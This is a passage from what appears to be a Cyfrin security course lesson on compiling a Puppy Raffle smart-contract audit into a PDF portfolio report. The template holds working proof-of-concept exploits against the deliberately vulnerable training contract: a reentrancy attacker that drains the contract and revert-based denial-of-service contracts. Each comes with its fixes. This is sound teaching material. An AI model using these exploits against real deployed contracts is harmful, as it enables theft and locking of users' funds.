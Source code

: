 ```yaml
---
title: Adding The Audit To Our Portfolio
---
```


_Follow along with this video:_

---

### Adding to our Portfolio

Ok, we've - for the most part - completed the write ups for the findings we identified in Puppy Raffle. The next step is generatin our PDF report and adding this to our security portfolio!

First step, let's add what we need to our `audit-data` folder.

Boilerplating things is something you should get used to. This involves reusing assets and templating processes so that it's quick to get started. Here, we can grab our logo from our previous `PasswordStore` repo, and our formatted report template can be copied from [**`audit-report-templating`**](https://github.com/Cyfrin/audit-report-templating) repo into a new file we name `report-formatted.md` within our `audit-data` folder.

::image{src='/security-section-4/63-pdf-report/pdf-report1.png' style='width: 75%; height: auto;'}

With this template in place, we can just begin filling it out. Start by adding your name and details to customize the report.

> **Note:** Keep an eye out for `//comments` in the report template below. This is where I'll have explained what's been added to each section.

View the report in the dropdown below, please know it's quiet long.

<details>
<summary>PDF Report Template</summary>

    ---
    title: Puppy Raffle Audit Report
    author: <YourName>
    date: January 12, 2024
    header-includes:
    - \usepackage{titling}
    - \usepackage{graphicx}
    ---

    \begin{titlepage}
        \centering
        \begin{figure}[h]
            \centering
            \includegraphics[width=0.5\textwidth]{logo.pdf}
        \end{figure}
        \vspace*{2cm}
        {\Huge\bfseries Protocol Audit Report\par}
        \vspace{1cm}
        {\Large Version 1.0\par}
        \vspace{2cm}
        {\Large\itshape Cyfrin.io\par}
        \vfill
        {\large \today\par}
    \end{titlepage}

    \maketitle

    <!-- Your report starts here! -->

    Prepared by: <You!>
    Lead Auditors:
    - <YourName>

    # Table of Contents
    - [Table of Contents](#table-of-contents)
    - [Protocol Summary](#protocol-summary)
    - [Disclaimer](#disclaimer)
    - [Risk Classification](#risk-classification)
    - [Audit Details](#audit-details)
    - [Scope](#scope)
    - [Roles](#roles)
    - [Executive Summary](#executive-summary)
    - [Issues found](#issues-found)
    - [Findings](#findings)
    - [High](#high)
    - [Medium](#medium)
    - [Low](#low)
    - [Informational](#informational)
    - [Gas](#gas)

    # Protocol Summary

    // You might want to write your own personal summary here for practice! We're going to steal some details from the protocol README

    This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

    - Call the enterRaffle function with the following parameters:
        - address[] participants: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
    - Duplicate addresses are not allowed
    - Users are allowed to get a refund of their ticket & value if they call the refund function
    - Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
    - The owner of the protocol will set a feeAddress to take a cut of the value, and the rest of the funds will be sent to the winner of the puppy.


    # Disclaimer

    The YOUR_NAME_HERE team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

    # Risk Classification

    |            |        | Impact |        |     |
    | ---------- | ------ | ------ | ------ | --- |
    |            |        | High   | Medium | Low |
    |            | High   | H      | H/M    | M   |
    | Likelihood | Medium | H/M    | M      | M/L |
    |            | Low    | M      | M/L    | L   |

    We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

    # Audit Details
    // Here we'll grab the commit hash
    Commit Hash: e30d199697bbc822b646d76533b66b7d529b8ef5

    ## Scope
    // Scope can be grabbed from the README as well, remember to replace the └── symbol!

    ./src/
    #-- PuppyRaffle.sol

    ## Roles
    // These details should be provided by the protocol, grab them from the README.

    - Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the changeFeeAddress function.
    - Player - Participant of the raffle, has the power to enter the raffle with the enterRaffle function and refund value through refund function.

    # Executive Summary
    // You can add any notes you'd like to this section to summarize your experience during the security review.

    I loved auditing this code base. Patrick is a wizard at writing intentionally bad code!

    ## Issues found

    | Severity | Number of issues found |
    | -------- | ---------------------- |
    | High     | 3                      |
    | Medium   | 3                      |
    | Low      | 1                      |
    | Info     | 7                      |
    | Gas      | 2                      |
    | Total    | 16                     |

    # Findings
    // Here we should be able to double check the formatting on our findings.md file and paste all of our findings here.

    ## High

    ### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain contract balance

    **Description:** The `PuppyRaffle::refund` function does not follow [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) and as a result, enables participants to drain the contract balance.

    In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address, and only after making that external call, we update the `players` array.

    ```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    @>  payable(msg.sender).sendValue(entranceFee);

    @>  players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
    ```

    A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue to cycle this until the contract balance is drained.

    **Impact:** All fees paid by raffle entrants could be stolen by the malicious participant.

    **Proof of Concept:**

    1. Users enters the raffle.
    2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`.
    3. Attacker enters the raffle
    4. Attacker calls `PuppyRaffle::refund` from their contract, draining the contract balance.

    **Proof of Code:**

    <details>
    <summary>Code</summary>
    Add the following code to the `PuppyRaffleTest.t.sol` file.

    ```javascript
    contract ReentrancyAttacker {
        PuppyRaffle puppyRaffle;
        uint256 entranceFee;
        uint256 attackerIndex;

        constructor(address _puppyRaffle) {
            puppyRaffle = PuppyRaffle(_puppyRaffle);
            entranceFee = puppyRaffle.entranceFee();
        }

        function attack() external payable {
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyRaffle.enterRaffle{value: entranceFee}(players);
            attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
            puppyRaffle.refund(attackerIndex);
        }

        fallback() external payable {
            if (address(puppyRaffle).balance >= entranceFee) {
                puppyRaffle.refund(attackerIndex);
            }
        }
    }

    function testReentrance() public playersEntered {
        ReentrancyAttacker attacker = new ReentrancyAttacker(address(puppyRaffle));
        vm.deal(address(attacker), 1e18);
        uint256 startingAttackerBalance = address(attacker).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        attacker.attack();

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(puppyRaffle).balance;
        assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
        assertEq(endingContractBalance, 0);
    }
    ```
    </details>

    **Recommended Mitigation:** To fix this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

    ```diff
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    +       players[playerIndex] = address(0);
    +       emit RaffleRefunded(playerAddress);
            (bool success,) = msg.sender.call{value: entranceFee}("");
            require(success, "PuppyRaffle: Failed to refund player");
    -        players[playerIndex] = address(0);
    -        emit RaffleRefunded(playerAddress);
        }
    ```

    ### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to choose winner

    **Description:** Hashing `msg.sender`, `block.timestamp`, `block.difficulty` together creates a predictable final number. A predictable number is not a good random number. Malicious users can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

    **Impact:** Any user can choose the winner of the raffle, winning the money and selecting the "rarest" puppy, essentially making it such that all puppies have the same rarity, since you can choose the puppy.

    **Proof of Concept:**

    There are a few attack vectors here.

    1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use that knowledge to predict when / how to participate. See the [solidity blog on prevrando](https://soliditydeveloper.com/prevrandao) here. `block.difficulty` was recently replaced with `prevrandao`.
    2. Users can manipulate the `msg.sender` value to result in their index being the winner.

    Using on-chain values as a randomness seed is a [well-known attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

    **Recommended Mitigation:** Consider using an oracle for your randomness like [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction).

    ### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees

    **Description:** In Solidity versions prior to `0.8.0`, integers were subject to integer overflows.

    ```javascript
    uint64 myVar = type(uint64).max;
    // myVar will be 18446744073709551615
    myVar = myVar + 1;
    // myVar will be 0
    ```

    **Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in `withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract.

    **Proof of Concept:**
    3. We first conclude a raffle of 4 players to collect some fees.
    4. We then have 89 additional players enter a new raffle, and we conclude that raffle as well.
    5. `totalFees` will be:
    ```javascript
    totalFees = totalFees + uint64(fee);
    // substituted
    totalFees = 800000000000000000 + 17800000000000000000;
    // due to overflow, the following is now the case
    totalFees = 153255926290448384;
    ```
    6. You will now not be able to withdraw, due to this line in `PuppyRaffle::withdrawFees`:
    ```javascript
    require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    ```

    Although you could use `selfdestruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not what the protocol is intended to do.

    <details>
    <summary>Proof Of Code</summary>
    Place this into the `PuppyRaffleTest.t.sol` file.

    ```javascript
    function testTotalFeesOverflow() public playersEntered {
            // We finish a raffle of 4 to collect some fees
            vm.warp(block.timestamp + duration + 1);
            vm.roll(block.number + 1);
            puppyRaffle.selectWinner();
            uint256 startingTotalFees = puppyRaffle.totalFees();
            // startingTotalFees = 800000000000000000

            // We then have 89 players enter a new raffle
            uint256 playersNum = 89;
            address[] memory players = new address[](playersNum);
            for (uint256 i = 0; i < playersNum; i++) {
                players[i] = address(i);
            }
            puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
            // We end the raffle
            vm.warp(block.timestamp + duration + 1);
            vm.roll(block.number + 1);

            // And here is where the issue occurs
            // We will now have fewer fees even though we just finished a second raffle
            puppyRaffle.selectWinner();

            uint256 endingTotalFees = puppyRaffle.totalFees();
            console.log("ending total fees", endingTotalFees);
            assert(endingTotalFees < startingTotalFees);

            // We are also unable to withdraw any fees because of the require check
            vm.prank(puppyRaffle.feeAddress());
            vm.expectRevert("PuppyRaffle: There are currently players active!");
            puppyRaffle.withdrawFees();
        }
    ```
    </details>

    **Recommended Mitigation:** There are a few recommended mitigations here.

    7. Use a newer version of Solidity that does not allow integer overflows by default.

    ```diff
    - pragma solidity ^0.7.6;
    + pragma solidity ^0.8.18;
    ```

    Alternatively, if you want to use an older version of Solidity, you can use a library like OpenZeppelin's `SafeMath` to prevent integer overflows.

    1. Use a `uint256` instead of a `uint64` for `totalFees`.

    ```diff
    - uint64 public totalFees = 0;
    + uint256 public totalFees = 0;
    ```

    1. Remove the balance check in `PuppyRaffle::withdrawFees`

    ```diff
    - require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    ```

    We additionally want to bring your attention to another attack vector as a result of this line in a future finding.

    ### [H-4] Malicious winner can forever halt the raffle
    <!-- TODO: This is not accurate, but there are some issues. This is likely a low. Users who don't have a fallback can't get their money and the TX will fail. -->

    **Description:** Once the winner is chosen, the `selectWinner` function sends the prize to the the corresponding address with an external call to the winner account.

    ```javascript
    (bool success,) = winner.call{value: prizePool}("");
    require(success, "PuppyRaffle: Failed to send prize pool to winner");
    ```

    If the `winner` account were a smart contract that did not implement a payable `fallback` or `receive` function, or these functions were included but reverted, the external call above would fail, and execution of the `selectWinner` function would halt. Therefore, the prize would never be distributed and the raffle would never be able to start a new round.

    There's another attack vector that can be used to halt the raffle, leveraging the fact that the `selectWinner` function mints an NFT to the winner using the `_safeMint` function. This function, inherited from the `ERC721` contract, attempts to call the `onERC721Received` hook on the receiver if it is a smart contract. Reverting when the contract does not implement such function.

    Therefore, an attacker can register a smart contract in the raffle that does not implement the `onERC721Received` hook expected. This will prevent minting the NFT and will revert the call to `selectWinner`.

    **Impact:** In either case, because it'd be impossible to distribute the prize and start a new round, the raffle would be halted forever.

    **Proof of Concept:**

    <details>
    <summary>Proof Of Code</summary>
    Place the following test into `PuppyRaffleTest.t.sol`.

    ```javascript
    function testSelectWinnerDoS() public {
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        address[] memory players = new address[](4);
        players[0] = address(new AttackerContract());
        players[1] = address(new AttackerContract());
        players[2] = address(new AttackerContract());
        players[3] = address(new AttackerContract());
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        vm.expectRevert();
        puppyRaffle.selectWinner();
    }
    ```

    For example, the `AttackerContract` can be this:

    ```javascript
    contract AttackerContract {
        // Implements a `receive` function that always reverts
        receive() external payable {
            revert();
        }
    }
    ```

    Or this:

    ```javascript
    contract AttackerContract {
        // Implements a `receive` function to receive prize, but does not implement `onERC721Received` hook to receive the NFT.
        receive() external payable {}
    }
    ```
    </details>

    **Recommended Mitigation:** Favor pull-payments over push-payments. This means modifying the `selectWinner` function so that the winner account has to claim the prize by calling a function, instead of having the contract automatically send the funds during execution of `selectWinner`.

    ## Medium

    ### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential DoS vector, incrementing gas costs for future entrants

    **Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle:players` array is, the more checks a new player will have to make. This means that the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

    **Note to students: This next line would likely be it's own finding itself. However, we haven't taught you about MEV yet, so we are going to ignore it.**
    Additionally, this increased gas cost creates front-running opportunities where malicious users can front-run another raffle entrant's transaction, increasing its costs, so their enter transaction fails.

    **Impact:** The impact is two-fold.

    1. The gas costs for raffle entrants will greatly increase as more players enter the raffle.
    2. Front-running opportunities are created for malicious users to increase the gas costs of other users, so their transaction fails.

    **Proof of Concept:**

    If we have 2 sets of 100 players enter, the gas costs will be as such:
    - 1st 100 players: 6252039
    - 2nd 100 players: 18067741

    This is more than 3x as expensive for the second set of 100 players!

    This is due to the for loop in the `PuppyRaffle::enterRaffle` function.

    ```javascript
            // Check for duplicates
    @>      for (uint256 i = 0; i < players.length - 1; i++) {
                for (uint256 j = i + 1; j < players.length; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            }
    ```

    <details>
    <summary>Proof Of Code</summary>
    Place the following test into `PuppyRaffleTest.t.sol`.

    ```javascript
    function testReadDuplicateGasCosts() public {
            vm.txGasPrice(1);

            // We will enter 5 players into the raffle
            uint256 playersNum = 100;
            address[] memory players = new address[](playersNum);
            for (uint256 i = 0; i < playersNum; i++) {
                players[i] = address(i);
            }
            // And see how much gas it cost to enter
            uint256 gasStart = gasleft();
            puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
            uint256 gasEnd = gasleft();
            uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
            console.log("Gas cost of the 1st 100 players:", gasUsedFirst);

            // We will enter 5 more players into the raffle
            for (uint256 i = 0; i < playersNum; i++) {
                players[i] = address(i + playersNum);
            }
            // And see how much more expensive it is
            gasStart = gasleft();
            puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
            gasEnd = gasleft();
            uint256 gasUsedSecond = (gasStart - gasEnd) * tx.gasprice;
            console.log("Gas cost of the 2nd 100 players:", gasUsedSecond);

            assert(gasUsedFirst < gasUsedSecond);
            // Logs:
            //     Gas cost of the 1st 100 players: 6252039
            //     Gas cost of the 2nd 100 players: 18067741
    }
    ```
    </details>

    **Recommended Mitigation:** There are a few recommended mitigations.

    1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
    2. Consider using a mapping to check duplicates. This would allow you to check for duplicates in constant time, rather than linear time. You could have each raffle have a `uint256` id, and the mapping would be a player address mapped to the raffle Id.

    ```diff
    +    mapping(address => uint256) public addressToRaffleId;
    +    uint256 public raffleId = 0;
        .
        .
        .
        function enterRaffle(address[] memory newPlayers) public payable {
            require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
            for (uint256 i = 0; i < newPlayers.length; i++) {
                players.push(newPlayers[i]);
    +            addressToRaffleId[newPlayers[i]] = raffleId;
            }

    -        // Check for duplicates
    +       // Check for duplicates only from the new players
    +       for (uint256 i = 0; i < newPlayers.length; i++) {
    +          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
    +       }
    -        for (uint256 i = 0; i < players.length; i++) {
    -            for (uint256 j = i + 1; j < players.length; j++) {
    -                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    -            }
    -        }
            emit RaffleEnter(newPlayers);
        }
    .
    .
    .
        function selectWinner() external {
    +       raffleId = raffleId + 1;
            require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
    ```

    Alternatively, you could use [OpenZeppelin's `EnumerableSet` library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet).

    ### [M-2] Balance check on `PuppyRaffle::withdrawFees` enables griefers to selfdestruct a contract to send ETH to the raffle, blocking withdrawals

    **Description:** The `PuppyRaffle::withdrawFees` function checks the `totalFees` equals the ETH balance of the contract (`address(this).balance`). Since this contract doesn't have a `payable` fallback or `receive` function, you'd think this wouldn't be possible, but a user could `selfdesctruct` a contract with ETH in it and force funds to the `PuppyRaffle` contract, breaking this check.

    ```javascript
        function withdrawFees() external {
    @>      require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
            uint256 feesToWithdraw = totalFees;
            totalFees = 0;
            (bool success,) = feeAddress.call{value: feesToWithdraw}("");
            require(success, "PuppyRaffle: Failed to withdraw fees");
        }
    ```

    **Impact:** This would prevent the `feeAddress` from withdrawing fees. A malicious user could see a `withdrawFee` transaction in the mempool, front-run it, and block the withdrawal by sending fees.

    **Proof of Concept:**

    1. `PuppyRaffle` has 800 wei in it's balance, and 800 totalFees.
    2. Malicious user sends 1 wei via a `selfdestruct`
    3. `feeAddress` is no longer able to withdraw funds

    **Recommended Mitigation:** Remove the balance check on the `PuppyRaffle::withdrawFees` function.

    ```diff
        function withdrawFees() external {
    -       require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
            uint256 feesToWithdraw = totalFees;
            totalFees = 0;
            (bool success,) = feeAddress.call{value: feesToWithdraw}("");
            require(success, "PuppyRaffle: Failed to withdraw fees");
        }
    ```

    ### [M-3] Unsafe cast of `PuppyRaffle::fee` loses fees

    **Description:** In `PuppyRaffle::selectWinner` their is a type cast of a `uint256` to a `uint64`. This is an unsafe cast, and if the `uint256` is larger than `type(uint64).max`, the value will be truncated.

    ```javascript
        function selectWinner() external {
            require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
            require(players.length > 0, "PuppyRaffle: No players in raffle");

            uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
            address winner = players[winnerIndex];
            uint256 fee = totalFees / 10;
            uint256 winnings = address(this).balance - fee;
    @>      totalFees = totalFees + uint64(fee);
            players = new address[](0);
            emit RaffleWinner(winner, winnings);
        }
    ```

    The max value of a `uint64` is `18446744073709551615`. In terms of ETH, this is only ~`18` ETH. Meaning, if more than 18ETH of fees are collected, the `fee` casting will truncate the value.

    **Impact:** This means the `feeAddress` will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

    **Proof of Concept:**

    1. A raffle proceeds with a little more than 18 ETH worth of fees collected
    2. The line that casts the `fee` as a `uint64` hits
    3. `totalFees` is incorrectly updated with a lower amount

    You can replicate this in foundry's chisel by running the following:

    ```javascript
    uint256 max = type(uint64).max
    uint256 fee = max + 1
    uint64(fee)
    // prints 0
    ```

    **Recommended Mitigation:** Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting. Their is a comment which says:

    ```javascript
    // We do some storage packing to save gas
    ```
    But the potential gas saved isn't worth it if we have to recast and this bug exists.

    ```diff
    -   uint64 public totalFees = 0;
    +   uint256 public totalFees = 0;
    .
    .
    .
        function selectWinner() external {
            require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
            require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
            uint256 winnerIndex =
                uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
            address winner = players[winnerIndex];
            uint256 totalAmountCollected = players.length * entranceFee;
            uint256 prizePool = (totalAmountCollected * 80) / 100;
            uint256 fee = (totalAmountCollected * 20) / 100;
    -       totalFees = totalFees + uint64(fee);
    +       totalFees = totalFees + fee;
    ```

    ### [M-4] Smart Contract wallet raffle winners without a `receive` or a `fallback` will block the start of a new contest

    **Description:** The `PuppyRaffle::selectWinner` function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery would not be able to restart.

    Non-smart contract wallet users could reenter, but it might cost them a lot of gas due to the duplicate check.

    **Impact:** The `PuppyRaffle::selectWinner` function could revert many times, and make it very difficult to reset the lottery, preventing a new one from starting.

    Also, true winners would not be able to get paid out, and someone else would win their money!

    **Proof of Concept:**
    1. 10 smart contract wallets enter the lottery without a fallback or receive function.
    2. The lottery ends
    3. The `selectWinner` function wouldn't work, even though the lottery is over!

    **Recommended Mitigation:** There are a few options to mitigate this issue.

    4. Do not allow smart contract wallet entrants (not recommended)
    5. Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owness on the winner to claim their prize. (Recommended)

    ## Informational / Non-Critical

    ### [I-1] Floating pragmas

    **Description:** Contracts should use strict versions of solidity. Locking the version ensures that contracts are not deployed with a different version of solidity than they were tested with. An incorrect version could lead to uninteded results.

    https://swcregistry.io/docs/SWC-103/

    **Recommended Mitigation:** Lock up pragma versions.

    ```diff
    - pragma solidity ^0.7.6;
    + pragma solidity 0.7.6;
    ```

    ### [I-2] Magic Numbers

    **Description:** All number literals should be replaced with constants. This makes the code more readable and easier to maintain. Numbers without context are called "magic numbers".

    **Recommended Mitigation:** Replace all magic numbers with constants.

    ```diff
    +       uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
    +       uint256 public constant FEE_PERCENTAGE = 20;
    +       uint256 public constant TOTAL_PERCENTAGE = 100;
    .
    .
    .
    -        uint256 prizePool = (totalAmountCollected * 80) / 100;
    -        uint256 fee = (totalAmountCollected * 20) / 100;
            uint256 prizePool = (totalAmountCollected * PRIZE_POOL_PERCENTAGE) / TOTAL_PERCENTAGE;
            uint256 fee = (totalAmountCollected * FEE_PERCENTAGE) / TOTAL_PERCENTAGE;
    ```

    ### [I-3] Test Coverage

    **Description:** The test coverage of the tests are below 90%. This often means that there are parts of the code that are not tested.

    ```
    | File                               | % Lines        | % Statements   | % Branches     | % Funcs       |
    | ---------------------------------- | -------------- | -------------- | -------------- | ------------- |
    | script/DeployPuppyRaffle.sol       | 0.00% (0/3)    | 0.00% (0/4)    | 100.00% (0/0)  | 0.00% (0/1)   |
    | src/PuppyRaffle.sol                | 82.46% (47/57) | 83.75% (67/80) | 66.67% (20/30) | 77.78% (7/9)  |
    | test/auditTests/ProofOfCodes.t.sol | 100.00% (7/7)  | 100.00% (8/8)  | 50.00% (1/2)   | 100.00% (2/2) |
    | Total                              | 80.60% (54/67) | 81.52% (75/92) | 65.62% (21/32) | 75.00% (9/12) |
    ```

    **Recommended Mitigation:** Increase test coverage to 90% or higher, especially for the `Branches` column.

    ### [I-4] Zero address validation

    **Description:** The `PuppyRaffle` contract does not validate that the `feeAddress` is not the zero address. This means that the `feeAddress` could be set to the zero address, and fees would be lost.

    ```
    PuppyRaffle.constructor(uint256,address,uint256)._feeAddress (src/PuppyRaffle.sol#57) lacks a zero-check on :
                    - feeAddress = _feeAddress (src/PuppyRaffle.sol#59)
    PuppyRaffle.changeFeeAddress(address).newFeeAddress (src/PuppyRaffle.sol#165) lacks a zero-check on :
                    - feeAddress = newFeeAddress (src/PuppyRaffle.sol#166)
    ```

    **Recommended Mitigation:** Add a zero address check whenever the `feeAddress` is updated.

    ### [I-5] _isActivePlayer is never used and should be removed

    **Description:** The function `PuppyRaffle::_isActivePlayer` is never used and should be removed.

    ```diff
    -    function _isActivePlayer() internal view returns (bool) {
    -        for (uint256 i = 0; i < players.length; i++) {
    -            if (players[i] == msg.sender) {
    -                return true;
    -            }
    -        }
    -        return false;
    -    }
    ```

    ### [I-6] Unchanged variables should be constant or immutable

    Constant Instances:
    ```
    PuppyRaffle.commonImageUri (src/PuppyRaffle.sol#35) should be constant
    PuppyRaffle.legendaryImageUri (src/PuppyRaffle.sol#45) should be constant
    PuppyRaffle.rareImageUri (src/PuppyRaffle.sol#40) should be constant
    ```

    Immutable Instances:

    ```
    PuppyRaffle.raffleDuration (src/PuppyRaffle.sol#21) should be immutable
    ```

    ### [I-7] Potentially erroneous active player index

    **Description:** The `getActivePlayerIndex` function is intended to return zero when the given address is not active. However, it could also return zero for an active address stored in the first slot of the `players` array. This may cause confusions for users querying the function to obtain the index of an active player.

    **Recommended Mitigation:** Return 2**256-1 (or any other sufficiently high number) to signal that the given player is inactive, so as to avoid collision with indices of active players.

    ### [I-8] Zero address may be erroneously considered an active player

    **Description:** The `refund` function removes active players from the `players` array by setting the corresponding slots to zero. This is confirmed by its documentation, stating that "This function will allow there to be blank spots in the array". However, this is not taken into account by the `getActivePlayerIndex` function. If someone calls `getActivePlayerIndex` passing the zero address after there's been a refund, the function will consider the zero address an active player, and return its index in the `players` array.

    **Recommended Mitigation:** Skip zero addresses when iterating the `players` array in the `getActivePlayerIndex`. Do note that this change would mean that the zero address can _never_ be an active player. Therefore, it would be best if you also prevented the zero address from being registered as a valid player in the `enterRaffle` function.

    ## Gas

    ### [G-2] Storage Variables in a Loop Should be Cached

    Everytime you call `players.length` you read from storage, as opposed to memory which is more gas efficient.

    ```diff
    + uint256 playersLength = players.length;
    - for (uint256 i = 0; i < players.length - 1; i++) {
    + for (uint256 i = 0; i < playersLength - 1; i++) {
    -    for (uint256 j = i + 1; j < players.length; j++) {
    +    for (uint256 j = i + 1; j < playersLength; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
    }
    ```
    ### [G-1] Unchanged state variables should be declared constant or immutable

    Reading from storage is much more expensive than reading a constant or immutable variable.

    Instances:

    - `PuppyRaffle::raffleDuration` should be `immutable`
    - `PuppyRaffle::commonImageUri` should be `constant`
    - `PuppyRaffle::rareImageUri` should be `constant`
    - `PuppyRaffle::legendaryImageUri` should be `constant`

</details>


The final step, once the template has been filled out is to run our CLI command

```bash
pandoc report-formatted.md -o report.pdf --from markdown --template=eisvogel --listings
```

### Wrap Up

And with that - you should have a PHENOMENAL audit report to add to your security portfolio! The very next thing you need to do is add this PDF to the GitHub repository you made in the previous section. Tracking your progress and cataloging your experience is how you'll get your name out there and show the world what you know. Even audit firms like Cyfrin do this!

Huge congratulations, let's bring this section home!

---

Similarly to the previous PDF generating lesson, I'll include some common pitfalls and solutions you can reference here, should you run into issues in this process.

<details>
<summary>Errors/Issues</summary>

1. **My home/root directory doesn't have a `.pandoc` file!**

   - Depending on your operating system, this file may exist elsewhere. If you're using WSL/Linux keep a few things in mind

     - The file may be hidden - files prepended with `.` are often hidden. You can reveal all files in a directory with the command `ls -a`
     - The file may be elsewhere - navigate back in directories (`cd ..`) until you reach one that looks like this

     ::image{src='/security-section-3/28-making-a-pdf/making-a-pdf1.png' style='width: 75%; height: auto;'}

     ...from here navigate to `usr/share/pandoc/data/templates`. In here you will find existing templates and this is where `eisvogel.latex` should be added.

2. **VS Code says I'm _unable to write a file to that directory_!**

   - This is related to your user permissions, we can force the file to be created with a sudo command. `sudo touch eisvogel.latex` - this command will create a file named `eisvogel.latex` in your current directory.
     - You may be prompted to enter your credentials or need to create an admin user.

3. **VS Code says I'm _unable to write to eisvogel.latex_!**

   - Similarly to above, this is permissions related. The easiest work around I found was through another `sudo` command.
     ```bash
     sudo tee eisvogel.latex << 'EOF'
     [copy LaTex here]
     EOF
     ```
   - The LaTex you need to copy is available [**here**](https://github.com/Cyfrin/audit-report-templating/blob/main/eisvogel.latex). Yes, you will be pasting 1068 lines into your terminal - this will overwrite your `eisvogel.latex` file, in your current directory, with that copied data.

4. **When I run `pandoc report.md -o ... etc` I get _File Not Found_**

   - This seems caused when our LaTex package is missing an important element. The easiest solution is to assure we have the full distribution of the package we're using. For WSL users `sudo apt install texlive-full` will resolve these errors.
     - Note: `texlive-full` is 5.6GB in size.

5. **When I run `pandoc report.md -o ... etc` I get _Missing number, treated as zero_**

   - Caused by an error in the LaTex syntax either in your markdown using it, or the template itself. Replace the block of LaTeX at the top of your `report.md` file with the following:

   ```
    \begin{titlepage}
    \centering
    {\Huge\bfseries Protocol Audit Report\par}
    \vspace{2cm}
    \begin{figure}[h]
    \centering
    \includegraphics[width=0.5\textwidth]{logo.pdf}
    \end{figure}
    \vspace{2cm}
    {\Large Version 1.0\par}
    \vspace{1cm}
    {\Large\itshape equious.eth\par}
    \vfill
    {\large \today\par}
    \end{titlepage}
   ```

   This should resolve the error.
